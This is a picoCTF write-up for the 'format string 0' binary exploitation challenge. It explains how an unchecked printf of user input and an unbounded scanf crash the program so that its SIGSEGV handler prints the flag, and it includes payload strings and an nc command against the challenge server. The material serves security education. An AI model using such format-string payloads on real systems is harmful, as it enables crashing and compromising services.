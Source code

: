# format string 0 #
 
## Overview ##

50 points

Category: [Binary Exploitation](../)

Tags: `#binaryexploitation #formatstring`

## Description ##

Can you use your knowledge of format strings to make the customers happy?

## Approach ##

Analysing the provided C source code we can see a flag file is read on execution of the program into the `flag` buffer, which gets printed from a Segmentation Fault handler `sigsegv()`, that is registered via the SIGSEGV signal handler.

So our goal is to cause the program to crash with a segmentation fault to trigger the signal handler and print the flag.

The `serve_patrick()` function called from `main()`, reading input from the user via an unbounded `scanf()` into the `choice1` character buffer, of `BUFSIZE` size (32 characters).

This challenge was originally solved by simply overflowing the `choice1` input buffer with an string too large to fit within the space provided, and sufficiently corrupting the stack enough to cause a segmentation fault.

    $ echo "dummyflag{1234}" > flag.txt

    $ echo $(python3 -c 'print("A"*50)') | ./format-string-0 
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: There is no such burger yet!

    dummyflag{1234}

However this doesn't seem to be in the spirit of the challenge, as a format string was not exploited.

Looking further we find in the `server_patrick()` function a `printf(buffer)` on line `#68`, where the buffer is from user input and hence under out control.

            ...
    61.     char choice1[BUFSIZE];
    62.     scanf("%s", choice1);
    63.     char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    64.     if (!on_menu(choice1, menu1, 3)) {
    65.       printf("%s", "There is no such burger yet!\n");
    66.       fflush(stdout);
    67.     } else {
    68.       int count = printf(choice1);
    69.       if (count > 2 * BUFSIZE) {
    70.         serve_bob();
    71.       } else {
            ...

To execute this code our input must satisfy the conditional logic in line `#64` (input must be a valid option from the three provided). From the valid options we see `Gr%114d_Cheese` contains a format specifier and would get parsed by the `printf()` identified on line `#68`.

    $ echo -e "Gr%114d_Cheese" | ./format-string-0
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: Gr                                                                                                           4202954_Cheese
    Good job! Patrick is happy! Now can you serve the second customer?
    Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
    Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
    Enter your recommendation: There is no such burger yet!

This format specifier requests `printf()` print the first integer argument, despite none being added and passed via the stack, so a value from the stack will be printed, but also requesting the representation of the integer be padded to 114 characters in the output.

Therefore even with a input string of 14 characters it further satisfies the conditional logic on line `#69`, the resultant output is greater in length than twice the size of the `choice1` input buffer size.

But we haven't caused a segmentation fault yet, so we continue into the execution of the `serve_bob()` function.

            ...
    91.     char choice2[BUFSIZE];
    92.     scanf("%s", choice2);
    93.     char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    94.     if (!on_menu(choice2, menu2, 3)) {
    95.       printf("%s", "There is no such burger yet!\n");
    96.       fflush(stdout);
    97.     } else {
    98.       printf(choice2);
    99.       fflush(stdout);
    100.    }
            ...

Similar to `server_patrick()`, we can execute a `printf()` a user controlled input buffer, with one of the three valid input options. Looking carefully we can see `"Cla%sic_Che%s%steak"` input option has three instances of `"%s"` format specifier to print a string. As there is no arguments passed along with this `printf()` buffer, values on the stack will be interpreted as pointers to strings and attempt to print whatever is at memory at those locations, most likely causing a segmentation fault, as they are likely not point to any null terminated valid strings.

## Solution ##

Putting it all together we have the final solution:

    $ echo -e "Gr%114d_Cheese\x00\nCla%sic_Che%s%steak" | nc mimas.picoctf.net 65128
    Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
    Here comes the first customer Patrick who wants a giant bite.
    Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
    Enter your recommendation: Gr                                                                                                           4202954_Cheese
    Good job! Patrick is happy! Now can you serve the second customer?
    Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
    Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
    Enter your recommendation: ClaCla%sic_Che%s%steakic_Che(null)
    picoCTF{...........redacted.............}

Where the actual flag value has been redacted for the purposes of this write up.